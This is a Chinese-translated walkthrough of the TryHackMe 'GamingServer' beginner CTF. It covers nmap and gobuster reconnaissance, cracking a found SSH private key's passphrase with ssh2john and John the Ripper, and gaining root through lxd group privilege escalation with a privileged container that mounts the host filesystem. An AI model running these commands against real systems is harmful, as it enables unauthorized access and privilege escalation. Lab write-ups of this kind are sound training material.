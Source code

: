 # TryHackMe: GamingServer 报道

> 原文：<https://infosecwriteups.com/tryhackme-gamingserver-write-up-53c64f995200?source=collection_archive---------2----------------------->

![](img/75a397d20041bf4d2a60a07a672886df.png)

初学者 CTF 挑战赛

这是一个 THM 初级挑战 [GamingServer](https://tryhackme.com/room/gamingserver) 的特写。没有任何延迟，让我们连接到我们的 THM OpenVPN 网络，并启动我们的机器。

## 任务 1 Boot2Root

1.  使用 Nmap 扫描您的网络。

```
nmap -A <machine-ip>
```

![](img/09d7551bab23d7ae82939330f2df6b10.png)

Nmap 扫描结果

2.有两个开放的端口。让我们看看 HTTP(80)端口中有什么。

![](img/f86e2dc392dd31a54864e57a7f216325.png)

http 页面

3.看起来像一个虚拟页面。但是我们可以通过 inspect 元素识别出一个名字“john”。所以让我们使用 gobuster，找出这个网站隐藏的扩展。

```
gobuster dir -u http://<machine-ip> -w 'wordlist'
```

![](img/c193a3490328fdd83a6399085d62150d.png)

Gobuster 扫描结果

4.几个扩展名是可疑的“robots.txt”、“secret”、“uploads”。让我们逐一探索。

![](img/5dd4cdcd7c588febaa5592082e78169a.png)

秘密分机

![](img/3aa534163bc9480ce611676cad0a9409.png)

上传扩展

5.我们可以找到一个列表文件，其中包含各种单词和一个 RSA 私钥，可用于 ssh 破解。

6.使用 ssh2john 让我们破解私钥并找到密码短语。

```
python3 ssh2john.py id_rsa > hash
```

![](img/4bf2599332a901a78c18efc6649e4409.png)

ssh2john

7.得到散列后，使用 john 让我们用“dict.lst”单词表找到密码短语。

```
john hash dict.lst
```

![](img/086ecd1f30028c1d5dd23e1ba059a9f1.png)

开膛手约翰扫描

8.现在我们得到了密码短语。让我们打开 ssh 并获取标志。

```
ssh -i id_rsa john@<machine-ip>
```

9.我们一打开外壳，就可以看到“user.txt”标志。

![](img/e9cd04d26c7efce00bce06b8b1127145.png)

用户标志

10.现在，让我们得到根旗。因为我们不是根用户。我们无法进入根目录。我们必须提升我们的特权。

11.在查看用户时，我发现可以通过 lxd 权限提升来对外壳进行 rooted。

![](img/27625f971953c5fa4badc7e2800805cb.png)

用户组

12.跟随这个步骤的是[这个](https://github.com/saghul/lxd-alpine-builder.git)。

```
git clone [https://github.com/saghul/lxd-alpine-builder.git](https://github.com/saghul/lxd-alpine-builder.git)cd lxd-alpine-buildersudo ./build-alpine
```

13.现在将压缩文件(alpine-v 3.12-x86 _ 64–2020 1 0 2 7 _ 1655 . tar . gz)传输到 machine shell。

![](img/95ff8d14d09114923361c1cefb20b51e.png)

14.请执行以下步骤。

```
lxc image import alpine-v3.12-x86_64-20201027_1655.tar.gz --alias=imagelxc init image hacked -c security.privileged=truelxc config device add hacked mydevice disk source=/ path=/mnt/root recursive=truelxc start hackedlxc exec hacked /bin/sh
```

![](img/9223f6130e1560817196c1b5aee68381.png)

15.嘣！！！我们现在是根用户。进入/mnt/root/root 目录获取根标志。

![](img/be5de9d0044e87bece76451385643b4f.png)

根标志

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和我联系。
